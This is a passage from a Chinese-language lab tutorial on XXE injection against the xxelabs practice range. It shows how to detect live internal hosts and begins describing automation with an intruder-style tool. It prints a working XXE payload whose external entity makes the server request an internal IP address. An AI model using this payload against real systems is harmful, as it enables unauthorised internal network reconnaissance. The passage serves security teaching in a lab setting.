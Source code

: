 这里的探测主机存活使用payload的以及判断和探测端口是基本上是一样的，只是将后面的端口取消，这里就放一个payload，需要注意哦，这里是基于xxelabs靶场构建的payload的。正常的payload可以看探测端口案例中构建的第二个payload，那个才是正常的。

payload：

```xml
<?xml version="1.0" encoding="utf-8"?> 

<!DOCTYPE xxe [

<!ELEMENT name ANY >

<!ENTITY xxe SYSTEM "http://192.168.10.51" >]>

<user><username>&xxe;</username><password>123456</password></user>
```



## 6.1.**自动化探测主机存活**

这里我就不演示手动测试的了，只演示自动化的。

### 6.1.1.**设置变化内容**

这里选中主机的最后一位，设置为变化的内容。

![img](assets/bN5OJpioZP2velA.jpg) 

### 6.1.2.**设置载荷**

这里由于我就开一台虚拟机，是192.168.10.50，我们添加51、52，51与52我都没开启。
